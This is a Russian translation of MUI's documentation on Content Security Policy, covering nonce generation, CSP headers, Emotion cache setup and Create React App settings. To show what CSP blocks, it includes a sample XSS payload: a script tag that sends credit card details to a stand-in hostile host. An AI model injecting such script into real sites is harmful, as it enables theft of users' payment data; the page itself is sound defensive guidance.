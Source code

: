 

# Политика безопасности содержимого (CSP) <meta data-oversett="" data-original-text="Content Security Policy (CSP)">

<p class="description">В этом разделе рассматриваются подробности настройки CSP.</p>

## Что такое CSP и почему она полезна? <meta data-oversett="" data-original-text="What is CSP and why is it useful?">

CSP смягчает атаки межсайтового скриптинга (XSS), требуя от разработчиков вносить в белый список источники, из которых извлекаются их активы. Этот список возвращается в виде заголовка с сервера. Например, если у вас есть сайт, расположенный по адресу `https://example.com`, CSP-заголовок `default-src: 'self';` будет разрешать все активы, расположенные по адресу `https://example.com/*`, и запрещать все остальные. Если на вашем сайте есть раздел, уязвимый к XSS, где отображается пользовательский ввод без расшифровки, злоумышленник может ввести что-то вроде:

```html
<script>
  sendCreditCardDetails('https://hostile.example');
</script>
```

Эта уязвимость позволит злоумышленнику выполнить все, что угодно. Однако при наличии безопасного заголовка CSP браузер не загрузит этот сценарий.

Вы можете прочитать больше о CSP в [MDN Web Docs](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP).

## Как реализовать CSP? <meta data-oversett="" data-original-text="How does one implement CSP?">

### Рендеринг на стороне сервера (SSR) <meta data-oversett="" data-original-text="Server-Side Rendering (SSR)">

Чтобы использовать CSP с MUI (и эмоциями), вам нужно использовать nonce. Nonce - это случайно сгенерированная строка, которая используется только один раз, поэтому вам нужно добавить серверное промежуточное ПО для генерации nonce при каждом запросе.

CSP nonce - это строка, закодированная в Base 64. Вы можете сгенерировать его следующим образом:

```js
import uuidv4 from 'uuid/v4';

const nonce = new Buffer(uuidv4()).toString('base64');
```

Вы должны использовать UUID версии 4, так как он генерирует **непредсказуемую** строку. Затем вы применяете этот nonce к заголовку CSP. Заголовок CSP может выглядеть следующим образом с примененным кодом:

```js
header('Content-Security-Policy').set(
  `default-src 'self'; style-src 'self' 'nonce-${nonce}';`,
);
```

Вы должны передать nonce в тегах `<style>` на сервере.

```jsx
<style
  data-emotion={`${style.key} ${style.ids.join(' ')}`}
  nonce={nonce}
  dangerouslySetInnerHTML={{ __html: style.css }}
/>
```

Затем вы должны передать этот nonce в кэш Emotion, чтобы он мог добавить его в последующие `<style>`.

:::warning
Если вы использовали `StyledEngineProvider` с `injectFirst`, вам нужно будет заменить его на `CacheProvider` из Emotion и добавить опцию `prepend: true`.
:::

```js
const cache = createCache({
  key: 'my-prefix-key',
  nonce: nonce,
  prepend: true,
});

function App(props) {
  return (
    <CacheProvider value={cache}>
      <Home />
    </CacheProvider>
  );
}
```

### Создание React App (CRA) <meta data-oversett="" data-original-text="Create React App (CRA)">

Согласно [документации Create React App Docs](https://create-react-app.dev/docs/advanced-configuration/), Create React App по умолчанию динамически внедряет сценарий выполнения в index.html во время сборки. Это потребует установки нового хэша в вашем CSP во время каждого развертывания.

Чтобы использовать CSP с проектом, инициализированным как Create React App, вам нужно установить переменную `INLINE_RUNTIME_CHUNK=false` в файле `.env`, используемом для производственной сборки. Это позволит импортировать сценарий выполнения как обычно, а не встраивать его, избегая необходимости устанавливать новый хэш при каждом развертывании.

### styled-components <meta data-oversett="" data-original-text="styled-components">

Конфигурация nonce не является простой, но вы можете проследить за [этим вопросом](https://github.com/styled-components/styled-components/issues/2363), чтобы получить больше информации.
